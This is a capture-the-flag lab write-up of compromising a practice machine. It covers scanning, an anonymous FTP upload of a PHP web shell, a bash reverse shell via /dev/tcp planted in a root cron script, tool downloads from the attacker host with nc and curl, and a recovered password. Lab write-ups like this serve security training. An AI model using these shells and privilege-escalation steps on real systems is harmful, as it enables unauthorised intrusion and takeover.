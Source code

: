 4 AUG 2021

ip : 10.10.182.242



SCANNING
========
basic:
------

$nmap -sV -v --open -oN nmap/intial 10.10.182.242

```
21/tcp    open     ftp           vsftpd 3.0.3

22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))  
```



ENUMERATION
===========
$ searchsploit  vsftpd 3.0.3

didn't find rce .


$ ftp 10.10.182.242

logged in successfully with anonymous !

```
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

```

[*] we can see we have rwx on ftp dirctory !

[*] prepare my php shell 

[*] $put shell.php

```
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> cd ftp
250 Directory successfully changed.

```

$gobuster dir -u http://10.10.182.242 -w /usr/share/dirb/wordlists/common.txt 

```
/files                (Status: 301) [Size: 314] [--> http://10.10.182.242/files/]
/index.html           (Status: 200) [Size: 808]                                  
/server-status        (Status: 403) [Size: 278]  

```

http://10.10.182.242/files/

i found same files with the ftp enumeration so let's check them :

a meme and seemes rabbit hole as no useful output from strings command or steghide .

and a notice.txt :

````
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

````
[*] so we know there is a possible user called Maya . 

let's stick with what we found with the ftp .

can find the shell uploaded at http://10.10.182.242/files/ftp/

[*] set up my listener 

$nc -lvp 1234

[*] execute the shell and now we have a **shell**

as www-data 

we have sh shell let's get a stable shell first .

$ python -c "import pty;pty.spawn('/bin/bash')"

now let's navigate around :

````
www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.

````
PRIVILEGE ESCALATION
=====================

there is a user : lennie

linpeas :

on my side 

└─$ nc -lvp 9999 < ~/tools/linpeas.sh 


www-data@startup:/tmp$ nc my_ip 9999 > linpeas.sh

found unexcepected folder called incidents and contain a .pcapng file so let's check it with wireshak .

![122](https://user-images.githubusercontent.com/67979878/128255451-2003c869-5143-4c13-8dc4-060062bb41a4.PNG)


found :
password: c4ntg3t3n0ughsp1c3

but it is a wrong pass for www-data but let's keep it 

try $su lennie #provide the pass and worked !

$sudo -l 

`
Sorry, user lennie may not run sudo on startup.
`

found scripts folder on home of lennie .
```
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Aug  4 20:02 startup_list.txt

```

```
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
it seems this script print some stuff in the startup_list.txt and execute script which we can write into .

hence the script is owned by root so if it  is exected by root privilege we will get a root shell 

But how can we make it get executed  ?

`-rwx------ 1 lennie lennie 53 Aug  4 20:01 /etc/print.sh`

i modify the script print.sh to a reverse shell providing my ip and a port .

sh -i >& /dev/tcp/my_ip/4444 0>&1

if you try to execute it you will get a shell as lennie 

after some digging i found a tool @ https://github.com/DominicBreuker/pspy

`to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc.`

upload it to target :

on my side : 'on a folder contain the tool '

$ python3 -m http.server 8080

lennie@startup:/tmp$ curl http://my_ip:8080/pspy64s -o psp


run it after ruuning $chmod +x psp

![12314](https://user-images.githubusercontent.com/67979878/128255762-673225bc-6dce-47e3-ad32-500574ea3222.PNG)

as we can see the script is ruuning each minute with root privielge as a cronjob

set a listenner .

after a minute from modifying the file you will get  a shell as root :

$ python -c "import pty;pty.spawn('/bin/bash')"

root@startup:~# crontab -l 

```
crontab -l

* * * * * /home/lennie/scripts/planner.sh
```

so there is a cronjob is done by root every minute to execute the planner.sh indeed .

#pwned 

lessons learned :
----------------
- when you got a ftp login successful check for read & write privilege .
- pspy64 tool helps to find processes and cronjobs  running even if you are not root .
